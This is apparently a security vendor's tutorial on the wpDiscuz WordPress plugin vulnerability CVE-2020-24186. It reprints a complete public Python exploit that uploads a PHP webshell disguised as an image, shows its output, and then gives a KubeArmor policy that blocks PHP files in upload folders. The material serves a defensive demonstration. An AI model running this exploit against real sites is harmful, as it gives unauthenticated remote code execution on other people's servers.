

How to protect WordPress application using AccuKnox
The modern content management system (CMS) has made website creation easier than ever. By utilizing the right platform, you will have access to features that can make the process much simpler.

Introduction¶
The modern Content Management System (CMS) has made website creation easier than ever. By utilizing the right platform, you will have access to features that can make the process much simpler. There are plenty of CMS to choose from, however, each with its advantages and drawbacks.
In this section, we’ll be talking about a critical vulnerability found in the WordPress plugin wpDiscuz. The wpDiscuz is a plugin designed to create responsive comment areas on WordPress installations. It allows users to discuss topics and easily personalize their feedback with a rich text editor.
AccuKnox provides runtime cloud security for your applications. In this cookbook, we will demonstrate how MySQL applications can be protected with AccuKnox.
What are we trying to achieve?¶
In the last revision of the wpDiscuz plugin, releases 7. x. x, they added the ability to include image attachments in the comments that are uploaded to the website and included in the comments. Unfortunately, there was no security protection associated with the implementation of this feature, creating a critical vulnerability. wpDiscuz comments were designed to allow only image attachments. However, due to the file mime type detection functions that were used, the file type verification could easily be bypassed, allowing unauthenticated users the ability to upload any type of file, including PHP files.
We will be taking a look at how to mimic the exploit and how we can use KubeArmor runtime security policies to defend from the attack without compromising the use of the plugin.
Score: 10 CRITICAL
Vector : CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
Attack Vector: NETWORK
Attack Complexity: LOW
Privileges Required: NONE
User Interaction: NONE
Scope: CHANGED
Confidentiality: HIGH
Integrity: HIGH
Availability: HIGH

We’ll deploy the WordPress application on Kubernetes and install wpDiscuz on it. Get the external IP of the application to access the same. For this, we have created a complete YAML for WordPress installation on Kubernetes. You can use this predefined deployment file to quickly deploy WordPress to your Kubernetes environment.
kubectl apply -f https://raw.githubusercontent.com/accuknox/samples/main/wordpress-demo/k8s-wordpress.yaml
kubectl get pod -n wordpress-mysql
NAME READY STATUS RESTARTS AGE
wordpress-5d5d448dcc-52mcj 1/1 Running 0 4d10h
wordpress-mysql-7757f9f8c8-2j8wm 1/1 Running 0 4d9h
kubectl get svc -n wordpress-mysql
NAME TYPE CLUSTER-IP EXTERNAL-IP PORT(S)
wordpress LoadBalancer 10.16.12.13 35.232.52.87 80:31790/TCP
wordpress-mysql ClusterIP None <none> 3306/TCP
Here the external IP is http://35.232.52.87/
Initiating the Attack¶
Go to http://35.232.52.87/2021/12/16/hello-world/ and create a comment. With a simple inspect of the webpage, we can see that WordPress is using wpDiscuz in it to create responsive comments.
Here, replace 35.232.52.87 from your own IP.
With the URL in hand, we’ll try to exploit the application by uploading a PHP code into the server and thereby granting us RCE.
To make this happen we use a public exploit for the wpDiscuz vulnerability.
#!/bin/python3
# Exploit Title: WordPress Plugin wpDiscuz 7.0.4 - Unauthenticated Remote Code Execution
# Google Dork: N/A
# Date: 2021/06/08
# Exploit Author: Fellipe Oliveira
# Vendor Homepage: https://gvectors.com/
# Software Link: https://downloads.wordpress.org/plugin/wpdiscuz.7.0.4.zip
# Version: wpDiscuz 7.0.4
# Tested on: Debian9, Windows 7, Windows 10 (Wordpress 5.7.2)
# CVE : CVE-2020-24186
# Thanks for the great contribution to the code: Z3roC00l (https://twitter.com/zeroc00I)
import requests
import optparse
import re
import random
import time
import string
import json
parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target host: http://192.168.1.81/blog")
parser.add_option('-p', '--path', action="store", dest="path", help="Path to exploitation: /2021/06/blogpost")
options, args = parser.parse_args()
if not options.url or not options.path:
print('[+] Specify an url target')
print('[+] Example usage: exploit.py -u http://192.168.1.81/blog -p /wordpress/2021/06/blogpost')
print('[+] Example help usage: exploit.py -h')
exit()
session = requests.Session()
main_url = options.url
path = options.path
url_blog = main_url + path
clean_host = main_url.replace('http://', '').replace('/wordpress','')
def banner():
print('---------------------------------------------------------------')
print('[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution')
print('[-] File Upload Bypass Vulnerability - PHP Webshell Upload')
print('[-] CVE: CVE-2020-24186')
print('[-] https://github.com/hevox')
print('--------------------------------------------------------------- \n')
def csrfRequest():
global wmuSec
global wc_post_id
try:
get_html = session.get(url_blog)
response_len = str(len(get_html.text))
response_code = str(get_html.status_code)
print('[+] Response length:['+response_len+'] | code:['+response_code+']')
raw_wmu = get_html.text.replace(',','\n')
wmuSec = re.findall('wmuSecurity.*$',raw_wmu,re.MULTILINE)[0].split('"')[2]
print('[!] Got wmuSecurity value: '+ wmuSec +'')
raw_postID = get_html.text.replace(',','\n')
wc_post_id = re.findall('wc_post_id.*$',raw_postID,re.MULTILINE)[0].split('"')[2]
print('[!] Got wmuSecurity value: '+ wc_post_id +' \n')
except requests.exceptions.HTTPError as err:
print('\n[x] Failed to Connect in: '+url_blog+' ')
print('[x] This host seems to be Down')
exit()
def nameRandom():
global shell_name
print('[+] Generating random name for Webshell...')
shell_name = ''.join((random.choice(string.ascii_lowercase) for x in range(15)))
time.sleep(1)
print('[!] Generated webshell name: '+shell_name+'\n')
return shell_name
def shell_upload():
global shell
print('[!] Trying to Upload Webshell..')
try:
upload_url = main_url + "/wp-admin/admin-ajax.php"
upload_cookies = {"wordpress_test_cookie": "WP%20Cookie%20check", "wpdiscuz_hide_bubble_hint": "1"}
upload_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "*/*", "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------2032192841253859011643762941", "Origin": "http://"+clean_host+"", "Connection": "close", "Referer": url_blog}
upload_data = "-----------------------------2032192841253859011643762941\r\nContent-Disposition: form-data; name=\"action\"\r\n\r\nwmuUploadFiles\r\n-----------------------------2032192841253859011643762941\r\nContent-Disposition: form-data; name=\"wmu_nonce\"\r\n\r\n"+wmuSec+"\r\n-----------------------------2032192841253859011643762941\r\nContent-Disposition: form-data; name=\"wmuAttachmentsData\"\r\n\r\n\r\n-----------------------------2032192841253859011643762941\r\nContent-Disposition: form-data; name=\"wmu_files[0]\"; filename=\""+shell_name+".php\"\r\nContent-Type: image/png\r\n\r\nGIF689a;\r\n\r\n<?php system($_GET['cmd']); ?>\r\n\x1a\x82\r\n-----------------------------2032192841253859011643762941\r\nContent-Disposition: form-data; name=\"postId\"\r\n\r\n"+wc_post_id+"\r\n-----------------------------2032192841253859011643762941--\r\n"
check = session.post(upload_url, headers=upload_headers, cookies=upload_cookies, data=upload_data)
json_object = (json.loads(check.text))
status = (json_object["success"])
get_path = (check.text.replace(',','\n'))
shell_pret = re.findall('url.*$',get_path,re.MULTILINE)
find_shell = str(shell_pret)
raw = (find_shell.replace('\\','').replace('url":"','').replace('\',','').replace('"','').replace('[\'',''))
shell = (raw.split(" ",1)[0])
if status == True:
print('[+] Upload Success... Webshell path:' +shell+' \n')
else:
print('[x] Failed to Upload Webshell in: '+ url_blog +' ')
exit()
except requests.exceptions.HTTPError as conn:
print('[x] Failed to Upload Webshell in: '+ url_blog +' ')
return shell
def code_exec():
try:
while True:
cmd = input('> ')
codex = session.get(shell + '?cmd='+cmd+'')
print(codex.text.replace('GIF689a;','').replace('�',''))
except:
print('\n[x] Failed to execute PHP code...')
banner()
csrfRequest()
nameRandom()
shell_upload()
code_exec()
This python code requires the URL to the WordPress site and the blogpost endpoint. We’ll get both of these from the UI.
python3 exploit.py -u http://35.232.52.87/ -p /2021/12/16/hello-world
The command will upload an arbitrary PHP file with <?php system($_GET['cmd']); ?> and then access this file to trigger execution on the server, thereby achieving remote code execution.
---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
---------------------------------------------------------------
[+] Response length:[101559] | code:[200]
[!] Got wmuSecurity value: fbf0656b17
[!] Got wmuSecurity value: 1
[+] Generating random name for Webshell...
[!] Generated webshell name: bmrorpjvojkbbko
[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:http://35.232.52.87/wp-content/uploads/2021/12/bmrorpjvojkbbko-1640016084.4304.php
> hostname
wordpress-5d5d448dcc-52mcj
>
Defending against the Attack¶
In order to defend against the attack, we dig a little deeper and found the root cause to be the "unrestricted file upload" when coupled with double extensions (e.g., ".php.gif") bypassed sanity checks.
To resolve the vulnerability you can update wpDiscuz to version 7.0.5+ by experiencing downtime or use KubeArmor’s pre-tailored policy to remove the vulnerability even without changing anything.
About the Policy:
# KubeArmor is an open source software that enables you to protect your cloud workload at runtime.
# To learn more about KubeArmor visit:
# https://www.accuknox.com/kubearmor/
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
name: ksp-cve-2020-24186-deny-wordpress-rce
namespace: wordpress-mysql # Change your namespace
spec:
tags: ["CVE", "WordPress-RCE", "CVE-2020-24186"]
message: "Alert! *.php file upload to wp-content subdirectory detected"
selector:
matchLabels:
app: wordpress #change this label with your label
file:
severity: 5
matchPatterns:
- pattern: /var/www/html/wp-content/uploads/**/*.php
- pattern: /var/www/html/wp-content/uploads/**/*.sh
action: Block
You can simply take advantage of our open-source GitHub inventory, and apply Policy directly from there:
kubectl apply -f https://raw.githubusercontent.com/kubearmor/policy-templates/main/cve/system/ksp-cve-2020-24186-deny-wordpress-rce.yaml
Checking the policy logs on KubeArmor¶
To check how to do it, kindly go through our help section.
Blocked Policy Log Created by KubeArmor
{
"timestamp": 1640059272,
"updatedTime": "2021-12-21T04:01:12.676169Z",
"hostName": "gke-cys-poc-default-pool-3be49535-k4cp",
"namespaceName": "wordpress-mysql",
"podName": "wordpress-5d5d448dcc-52mcj",
"containerID": "9d477215d2288de4cd5ff63f387a808fe1bf3663d130362bebf33c546427e09c",
"containerName": "wordpress",
"hostPid": 3863212,
"ppid": 1,
"pid": 120,
"uid": 33,
"type": "ContainerLog",
"source": "apache2",
"operation": "File",
"resource": "/var/www/html/wp-content/uploads/2021/12/xjeyirtptddiemf-1640059272.6737.php",
"data": "syscall=SYS_OPEN flags=O_WRONLY|O_CREAT|O_TRUNC",
"result": "Permission denied"
}
AccuKnox's policy templates repository¶
AccuKnox's policy templates is an open-source repo that also contains a wide range of attack prevention techniques including MITRE, as well as hardening techniques for your workloads. Please visit policy-templates to download and apply policy policies.
Conclusion¶
In this post, we detailed a flaw in wpDiscuz that provided unauthenticated users with the ability to upload arbitrary files, including PHP files, and execute those files on the server. Thus leading to an RCE and resource hijacking.
Using KubeArmor, an organization can effectively protect against these sorts of accidental developer-introduced vulnerabilities.